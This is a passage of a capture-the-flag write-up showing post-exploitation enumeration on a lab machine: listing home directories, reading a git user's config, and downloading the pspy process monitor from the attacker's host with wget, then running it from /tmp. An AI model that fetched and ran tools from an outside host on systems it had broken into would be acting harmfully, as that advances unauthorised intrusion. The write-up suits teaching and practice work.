 

There is one other home directory, for the git user:



    dev01@opensource:/home$ ls
    dev01  git



In the directory, there's only one directory (`.ssh`) that I can't
access, and `.gitconfig`:



    dev01@opensource:/home/git$ la -la
    total 16
    drwxr-xr-x 3 git  git  4096 May  4 16:35 .
    drwxr-xr-x 4 root root 4096 May 16 12:51 ..
    -rw-r--r-- 1 git  git   112 Apr 27 20:32 .gitconfig
    drwx------ 2 git  git  4096 May  4 16:35 .ssh
    dev01@opensource:/home/git$ cat .gitconfig 
    [user]
            name = Gitea
            email = gitea@fake.local
    [core]
            quotePath = false
    [receive]
            advertisePushOptions = true



#### pspy

There's not much of interest in the process list, but I'll upload
[pspy](https://github.com/DominicBreuker/pspy) to look for any processes
that run periodically. I'll download the latest release, and serve it
with Python webserver. From OpenSource, I'll fetch the file into `/tmp`:



    dev01@opensource:/tmp$ wget 10.10.14.6/pspy64
    --2022-09-30 13:16:54--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: ‘pspy64’

    pspy64                                 100%[===================================>]   2.94M  1.68MB/s    in 1.7s    

    2022-09-30 13:16:56 (1.68 MB/s) - ‘pspy64’ saved [3078592/3078592]



I'll make it executable and run it:



    dev01@opensource:/tmp$ ./pspy64
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
    ...[snip]...

